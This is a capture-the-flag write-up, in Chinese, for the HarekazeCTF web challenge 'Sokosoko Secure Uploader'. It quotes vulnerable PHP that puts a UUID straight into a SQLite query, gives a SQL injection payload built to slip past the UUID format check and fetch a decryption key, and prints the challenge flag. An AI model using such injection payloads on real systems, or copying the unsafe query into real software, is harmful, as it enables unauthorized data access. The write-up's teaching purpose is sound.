 # Sokosoko Secure Uploader
## Challenge details
|       Event        | Challenge | Category | Points  |
|:-------------------|:----------|:---------|:-------:|
| HarekazeCTF        |Sokosoko Secure Uploader    |Web   |100      |

### Description
> I encrypted my file by using this service. Attachment is the encrypted file, but I accidentally deleted the UUID of the file. All I remember is the UUID starts with 9e5a :(
### Attachments
> [flag.png.encrypted](flag.png.encrypted)  
> [src.zip](src.zip)    
## Solution
在function.php中，对uuid的判断函数为
```php
function is_uuid($str) {
  if (strlen($str) !== 36) {
    return false;
  }
  if ($str[8] !== '-' or $str[13] !== '-' or $str[18] !== '-' or $str[23] !== '-') {
    return false;
  }
  return true;
}
```
之后访问数据库的命令为
```php
$pdo = new PDO('sqlite:key.db');
$stmt = $pdo->query("SELECT key FROM decryption_key WHERE id = '$uuid'");
$res = $stmt->fetch();
```
所以可以通过构造uuid来解密文件  
将uuid设置为'or id/*-1111-1111-1111-*/like '9e5%  
成功解密图片  
HareKazeCTF{k41k4n_j1kk4n_j1n615uk4n}  